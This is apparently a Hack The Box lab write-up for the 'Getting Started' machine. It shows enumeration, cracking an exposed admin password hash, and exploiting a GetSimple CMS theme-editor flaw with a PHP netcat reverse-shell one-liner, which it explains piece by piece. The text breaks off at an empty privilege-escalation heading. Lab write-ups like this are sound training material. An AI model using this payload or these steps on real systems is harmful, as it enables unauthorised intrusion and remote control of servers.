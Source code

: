 ## **Hack The Box - Getting Started**

**Creator:** 

**Difficulty:** Easy

**Link:** 

---


<ins> **Introduction** </ins>

*Getting Started* is an Easy Level system and is meant to be the first *blackbox* machine someone following the *Penetration Tester* Learning path would encounter. As such I was not able to obtain creator information, a direct link to the machine, or it's info card. Although I can register a guess who the creator was based on a username found on the system.
In this challenge I gain a foothold by exploiting [CVE-2019-11321](https://nvd.nist.gov/vuln/detail/CVE-2019-11231). From there I'm able to obtain root access using the *www-data* users sudo privileges over the *php* command that can be found on [GTFO Bins](https://gtfobins.github.io/gtfobins/php/#sudo).

---

<ins> **Enumeration** </ins>

I Normally start each machine with an *nmap* scan and this one was no exception. 

![nmap output](/docs/assets/images/HTB/gettingstarted/gettingstarted1.png)

Port 22/tcp open to ssh using OpenSSH 8.2p1
 
Port 80/tcp open to http using Apache httpd 2.4.41

Neither one yielded any results initially with *searchsploit*. Navigating over to the webpages showed me what looked like an outline for a blog or something running *GetSimple* Content Managment System. This page contains a few links to documentation for *GetSimple* and some support forums. There are also some headers containing some content in a language I can't read, a list of features, and finally a link to *gettinstarted*. 



![searchsploit](/docs/assets/images/HTB/gettingstarted/gettingstarted2.png)

![webpage](/docs/assets/images/HTB/gettingstarted/gettingstarted3.png)

Navigating over to *gettingstarted* brings me to a server not found page. I noticed the ip_address in the url bar change itself into a hostname, which tells me I'll have to edit them into my */etc/hosts* file. Once I do that I'm able to load a webpage very similar to the one I was on before.

![404](/docs/assets/images/HTB/gettingstarted/gettingstarted4.png)

![etc hosts](/docs/assets/images/HTB/gettingstarted/gettingstarted5.png)

![webpage loaded](/docs/assets/images/HTB/gettingstarted/gettingstarted6.png)

I wasn't able to find a whole lot on the web page as it is. The next step for me was to run *gobuster* against the webserver. I started with a simple word list and got several hits. Three with a status code of 200, */index.php, /robots.txt, /sitemap.xml*, and five with a status code of 301 */theme, /plugs, /data, /backups, /admin*. 

`gobuster dir –u <target_ip> -w /usr/share/dirb/wordlists/common.txt`

![gobuster](/docs/assets/images/HTB/gettingstarted/gettingstarted7.png)

I spent some time navigating through these directories and seeing what information I could find from them. The */admin* directory redirected to a login page with a nonspecific error message, and inside of the */data* directory I was able to find an *api key* and what was likely the specific version of *GetSimple*, being *GetSimple 3.3.15*.

![admin login](/docs/assets/images/HTB/gettingstarted/gettingstarted10.png)

![nonspecific error](/docs/assets/images/HTB/gettingstarted/gettingstarted11.png)

![api key](/docs/assets/images/HTB/gettingstarted/gettingstarted8.png)

![GetSimple Version](/docs/assets/images/HTB/gettingstarted/gettingstarted9.png)

*Searchsploit* again failed to yield any results for this specific version. At this point I kind of hit a wall so I spent some time on google searching for the service versions I found already which is where I found [CVE-2019-11321](https://nvd.nist.gov/vuln/detail/CVE-2019-11231). 

![searchsploit getsimple](/docs/assets/images/HTB/gettingstarted/gettingstarted12.png)

![CVE-2019-11231](/docs/assets/images/HTB/gettingstarted/gettingstarted13.png)

Immediately what stood out to me was this line about password exposure:

> However, what is overlooked is that the Apache HTTP Server by default no longer enables the AllowOverride directive, leading to data/users/admin.xml password exposure.

Sure enough navigating over to the *data/users/admin.xml* directory leads to some exposed login credentials *admin:d033e22ae348aeb5660fc2140aec35850c4da997*. The password is hashed but I was able to easily put that into a file and use *john* to crack it.

```
echo "d033e22ae348aeb5660fc2140aec35850c4da997" > passhash.txt
sudo john passhash.txt
```
![password hash](/docs/assets/images/HTB/gettingstarted/gettingstarted14.png)

![john](/docs/assets/images/HTB/gettingstarted/gettingstarted15.png)

The password is *admin*. Navigating back over to the */admin* directory I enter the credentials *admin:admin* and gain access to the CMS admin page.

![CMS admin page](/docs/assets/images/HTB/gettingstarted/gettingstarted16.png)

---


<ins> **Exploitation** </ins>

According to the CVE I found the *theme-edit.php* file has poor input sanitization and allows for the upload of arbitrary content like php code. So I'm just going to replace everything currently in the editor with a php reverse shell.  

`<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.152 3232 >/tmp/f"); ?>`

Breaking that payload down a little bit:

`<?php?>` is the *php* tag, `system` is a built-in *php* function that is used to execute system commands. `rm /tmp/f` Removes the named pip */tmp/f* if it already exists, `mkfifo /tmp/f` creates a *FIFO (first in first out)* file which is also known as a named pipe. The file is named *f* and placed in the */tmp* directory, it is a special file type that is used for inter-process communication, it acts as a pipeline that allows one process to write to the pipe and another process to read from it. These named pipes do not store any data, they only server to pass data between processes. `cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.152 3232 >/tmp/f` pipes the output of */tmp/f* to netcat, which sends it to my ip address on the port I will set up the listener on. The `/bin/sh -i` part starts an interactive shell with input/output connected to the named pipe, `2>&1` redirects standard error to standard output, this means that error messages will also be sent to the remote host. Finally, `>/tmp/f` redirects the output of the *netcat* command back to the named pipe, so the reverse shell can read it.

![Theme Editor](/docs/assets/images/HTB/gettingstarted/gettingstarted17.png)

![php rev shell](/docs/assets/images/HTB/gettingstarted/gettingstarted18.png)

After that I will set up a listener in a new terminal then navigate over to the file path, *http://gettingstarted.htb/theme/innovation/* as specified on the *Content Theme* page, and click the file now containing the payload to execute it.

![listener](/docs/assets/images/HTB/gettingstarted/gettingstarted19.png)

![filepath](/docs/assets/images/HTB/gettingstarted/gettingstarted20.png)

![execute shell](/docs/assets/images/HTB/gettingstarted/gettingstarted21.png)

Back at my listener I can see that I'm now logged in as the www-data user. My next step after that is to use python to upgrade the TTY so that it's easier to work with and then I will begin the enumeration phase all over to see what I can find as this low level user. 

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

![listener whoami](/docs/assets/images/HTB/gettingstarted/gettingstarted22.png)

![upgrade TTY](/docs/assets/images/HTB/gettingstarted/gettingstarted23.png)

The user flag was very easy to find since the www-data user has the correct permissions to read the file.

![user flag](/docs/assets/images/HTB/gettingstarted/gettingstarted24.png)

---


<ins> **Privilege Escalation** </ins>












